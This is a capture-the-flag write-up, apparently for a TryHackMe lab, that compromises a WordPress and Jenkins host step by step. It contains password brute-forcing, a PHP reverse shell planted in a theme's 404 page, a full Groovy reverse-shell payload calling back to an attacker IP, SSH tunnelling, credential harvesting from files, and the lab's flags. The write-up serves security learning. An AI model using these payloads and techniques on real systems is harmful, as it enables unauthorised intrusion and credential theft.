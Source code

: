 # Internal-Writeup
## Recon

Machine booted, let's see if it is up with some pings
```
ping 10.10.247.233                         
PING 10.10.247.233 (10.10.247.233) 56(84) bytes of data.
64 bytes from 10.10.247.233: icmp_seq=1 ttl=63 time=80.8 ms
64 bytes from 10.10.247.233: icmp_seq=2 ttl=63 time=81.8 ms
^C
--- 10.10.247.233 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 80.812/81.283/81.754/0.471 ms
```

Machine is up, let's do some basic port scan
`nmap -p- -O -A -sV 10.10.247.233`
Output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   57.43 ms 10.8.0.1
2   57.51 ms internal.thm (10.10.247.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```
Interesting. No more ports open besite http. This will be web based penetration testing.

## Web application recon
MANUAL:
- Index page is showing the default ubuntu-apache page. No significant html comments are made inside
- robots.txt sitemap.xml php.ini and more files give 404. There must be some directories that are hosting website outside /var/www/html so we will have to switch to automated method or brute forcing directories

AUTOMATED:
- Using dirbuster we brute forced directories on given server.
Results:
```
/phpmyadmin/ (shows login page of phpmyadmin, not outdated vulnerable version)
/blog/ (dirbuster detected some basic wordpress directories and files which confirms this is wordpress based website)
```

While looking at the index page of blog we only see basic page with twentyseventeen theme. 
Looking at source code we don't see anything crucial, we can see plugins, themes, some uploads but nothing crucial.
As I checked for robots.txt which returned 404 i remembered i should check for sitemap.xml which can give me informations about users and authors which i can later brute force on login if i don't find any vulnerable theme or plugin.
But sitemap.xml returned 404 so i ran my tool which enumerates authors and usernames through the archives and posts.
We got username `admin` which we will note for the case where we don't find any vulnerability.
For scanning vulnerabilities on wordpress websites we will use `WPscan` which is great enumeration and vulnerability scanning tool.
Unfortunately we found 39 vulnerabilities which are probably not intentionally left there so we will brute force login with same tool and we can get back to those CVEs later.

Using a `/usr/share/wordlists/rockyou.txt` wordlist we will attack the wp-login.php page which is located in `http://internal.thm/blog/wp-login.php`.
Bingo! `Valid Combinations Found: Username admin, Password my2boys`
We will use these given credentials to login on the admin panel
`admin:my2boys`

## Getting access
After successfully logging in the admin panel, we get prompted with question if we want to update the admin email or leave it as it is.
We will skip on this one because our goal is getting webshell or reverse shell.
For this purposes idea is to edit built-in pages with the malicious code which will execute under condition that we visit website.

So twentyseventeen is a theme. Themes got their own custom 404 page that will run when you visit non-existing page. So for a fact we know that we can modify that page which we will do.
Through the admin panel, we can see the side menu on left side which contains tab themes.
So the path is `Themes>>Theme editor>>404.php`

`https://github.com/pentestmonkey/php-reverse-shell`is great for these purposes as it can run as logic bomb when visited. You can download it, modify by just adding your ip address and port as following:
```
$ip = '10.8.22.53';  // CHANGE THIS TO YOUR IP
$port = 1234;       // CHANGE THIS TO WANTED PORT
```
And you can finally start your connection listener on all interfaces by running `nc -lvnp 1234` in your command line.
After pasting whole reverse shell code in the 404 template you can press `Publish` and visit the page with following url http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
Bingo! Reverse shell!
```
$ nc -lvnp 1234            
listening on [any] 1234 ...
connect to [10.8.22.53] from (UNKNOWN) [10.10.247.233] 54424
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:52:46 up  3:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We got access as `www-data`

## Internal recon
So we got the reverse shell which is unstable to use and which i don't recommend for holding onto on longer pentests. So we will stabilise it by running:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
Press ENTER
export TERM=xterm
```
This would make it more stable and better looking and even more useful.
By trying to visit `/home` directory we encounter `aubreanna` to which we do not have access to enter. So privilege escalation takes part here.
We are unable to run `sudo -l` but remember we are www-data. We can download and run linpeas and polkits and more if we don't find anything significant.

With enumerations script and techniques we did not find anything that would help us escalate privileges beside modern vulnerabilities that would be considered cheating as the machine is not intended to be used that way.
Linpeas-ng leads us to /opt directory with sensitive file containing credentials called wp-save.txt which content is this:
```
www-data@internal:/opt$ cat wp-save.txt
Bill,
Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
aubreanna:bubb13guM!@#123
```
By running `su aubreanna` we are becoming that user!
Now we will go and examine home directory
```
aubreanna@internal:/opt$ cd ~
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$
```
Hmm but what is this `jenkins.txt` let's see.
```
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```
Let's check if it is still running with netstat.
`tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     `
and yes, it is running.

We will have to do ssh tunelling so we can access the internal service that can be only visited through localhost.
We can do that with following command:
```
ssh -L 9090:127.0.0.1:8080 aubreanna@internal.thm
```
This would be able to run jenkins service on our 9090 port which we can access through 127.0.0.1:9090
As we have access to it, we should try default credentials on the login page.
[jenkins:jenkins, admin:password and etc] did not work so we will have to move to brute forcing.
It is known that default username for jenkins is either `jenkins` or `admin` (which we already met in wordpress) so we will try admin one first.
Using burp suite we will brute force login page and we will use top 10 million passwords wordlist as payload with it.

After some time, correct password was found and it was `spongebob`
Now we will log in with following credentials: `admin:spongebob`
After snooping around and checking function by function I have found the `Script Console` which can run arbitary groovy scripts inside of `Manage Jenkins` tab in side menu on left side. So I was almost sure that root was running jenkins or someone with enough privileges to have root acces so I thought reverse shell would be answer.
Using following payload I got reverse shell:
```
String host="10.8.22.53"; 
int port=1234;
 String cmd="bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
And whalla! We got the Jenkins user about which I was partly right. First place I checked was /opt directory and I was right. It changed. Notice we got `notes.txt` file which contains everything we need:
```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

## Final show
After we stabilize shell with same exact process we can run `su root` and enter the given password and get the final flag:
```
root@internal:~# cd ~
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
```

